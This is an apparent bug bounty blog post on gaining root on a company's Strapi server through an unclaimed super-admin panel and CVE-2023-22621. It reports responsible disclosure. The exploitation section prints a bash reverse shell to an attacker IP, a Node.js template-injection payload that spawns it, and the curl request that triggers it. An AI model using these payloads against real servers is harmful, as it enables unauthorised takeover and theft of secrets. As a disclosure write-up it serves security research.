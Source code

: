 ```yaml
---
title: "Remote code execution in a billion-dollar publicly traded company"
date: 2024-02-10T21:43:57+08:00
author: ted
draft: false
thumbnail: https://tedmdelacruz.github.io/strapi-rce-thumbnail.PNG
---
```


![Thumbnail](/strapi-rce-thumbnail.PNG)

There are 4 things that need to happen in order to find [CVE-2023-22621](https://nvd.nist.gov/vuln/detail/CVE-2023-22621) in the wild:
 
- You need to find a website that is powered by [Strapi](https://strapi.io).
- The _super admin_ for this website, _somehow_, **has not been claimed yet**.
- The version of Strapi should be _at least_ **4.5.5 and below**.
- No other hacker had _somehow_ seen any of the three aforementioned scenarios first.

The stars have aligned in my favor, and with this [CVE](https://en.wikipedia.org/wiki/Common_Vulnerabilities_and_Exposures), I managed to fully take over one of the websites of a **billion-dollar company listed on the New York Stock Exchange**.

And I happen to be invited to their private [bug bounty program](https://en.wikipedia.org/wiki/Bug_bounty_program).

# Reconnaissance

I have a server that pings me of new subdomains of this company every 5pm Manila time so I can check them out after work.

Usually I don't find anything in my probes, and this one: **strapi.[redacted].com** also didn't trigger any alarms at first.
My automations pinged me about the subdomain of this website around early December 2023, but this website caught my attention during a manual inspection of the company assets that I did around early February 2024.

I couldn't believe it at first, but the _super admin_ registration for this website was open. And _somehow_, no other hacker had seen this before me:

![Admin Registration](/strapi-rce-admin.PNG)

Realizing this was nothing short of exhilarating, since it’s been months since I got a paid bug bounty.

# Escalation

Claiming the super admin of a website is nice and dandy, but like most other security researchers, I asked myself: "How can I escalate this to something even more severe?".

The next step was obvious; I googled 'strapi cve'. One particular CVE instantly caught my attention: **[CVE-2023-22621](https://nvd.nist.gov/vuln/detail/CVE-2023-22621)** which allows for an authenicated user to execute the highly coveted **[_remote code execution_](https://en.wikipedia.org/wiki/Arbitrary_code_execution).**

The CVE ticks all of the boxes:
- You need to have super admin access (I got that) ✔
- The version of Strapi should be 4.5.5 and below (This website is on Strapi v3.6.0) ✔

# Exploitation

The CVE allows for a remote code execution via a [reverse shell](https://wiki.ubuntu.com/ReverseShell), which requires an attacker server waiting for incoming TCP connection from a victim server.

## Preparing the attacker server

I whipped up a small Digital Ocean droplet and using [netcat](https://en.wikipedia.org/wiki/Netcat) I had it listen to incoming TCP connections in port `1234`:

```sh
$ nc -lvnp 1234
```

- `-l` Instructs `netcat` to listen for incoming TCP connection rather than initiating a connection to a remote host.
- `-v` Produces more verbose output.
- `-n` Toggles `netcat` to not do any DNS or service lookups.
- `-p` Specifies the port to listen to.

## Executing the reverse shell payload

The reverse shell payload that worked for me after initial tests in my local network was the following:

```sh
bash -c 'bash -i >& /dev/tcp/[MY_ATTACKER_IP]/1234 0>&1'
```

Combining this with the NodeJs exploit described in the CVE, we get the following payload:

```js
<%= `${ process.binding("spawn_sync").spawn({"file":"/bin/bash","args":["/bin/bash","-c","bash -c 'bash -i >& /dev/tcp/[MY_ATTACKER_IP]/1234 0>&1'"],"stdio":[{"readable":1,"writable":1,"type":"pipe"},{"readable":1,"writable":1,"type":"pipe"/*<>%=*/}]}).output }` %>
```

Now, [CVE-2023-22621](https://nvd.nist.gov/vuln/detail/CVE-2023-22621) exploits an email template bypass in Strapi. Simply put, it runs when an attempt to send an email is sent. The initial configuration of Strapi allows admins to update the email confirmation template. This is where the payload is saved:

![Strapi RCE payload](/strapi-rce-payload.PNG)

## Spawning a shell as `root` in the compromised server

This exploit runs when a confirmation email is sent, so an API call that registers a new user to Strapi in order to execute the reverse shell is necessary. This is a basic cURL command for that purpose:

```sh
$ curl -vvv -X POST -H 'Content-Type: application/json' -d '{"email":"tedminfosec+rce1@gmail.com", "username":"rcetrigger1", "password": "Test1234!"}' https://strapi.[redacted].com/auth/local/register/
```

Upon execution of the cURL command, Strapi attempts to validate the email template. The exploit then takes advantage of a template validation bypass and runs the reverse shell payload via `node`. The reverse shell then initiates a TCP connection to my attacker server, which spawns a `bash` session.

Now, the attacker machine has logged in to the server as `root`, **giving me total control of the server**:

```sh
root@[redacted]:/home/[redacted]/project/strapi# ls
ls
api    config      favicon.ico   package.json  README.md
build  extensions  node_modules  public        yarn.lock
```

In order to prove the RCE, I left an inconspicuous text file in the server at `/root/tedminfosec.txt`:

```sh
root@[redacted]:/home/[redacted]/project/strapi# cat /root/tedminfosec.txt
hello from tedminfosec@wearehackerone.com
```

# Impact

Without disclosing too much about the compromised server, it contains highly sensitive keys and secrets that could have allowed a malicious actor to pivot to other, more sensitive assets in the company's internal network.

The malicious actor could have done more than just defacing a website or use it to launch phishing campaigns.

Since privilege escalation at this point would break the _rules of engagement_, I decided to stop testing from there.

# Responsible disclosure

Once that's done, I took my time to write a detailed vulnerability report and submitted it to the bug bounty program. It was triaged as **Critical**:

![Strapi RCE triage](/strapi-rce-triage.jpg)

Now that's how I compromised a server of a company worth more than a billion dollars.
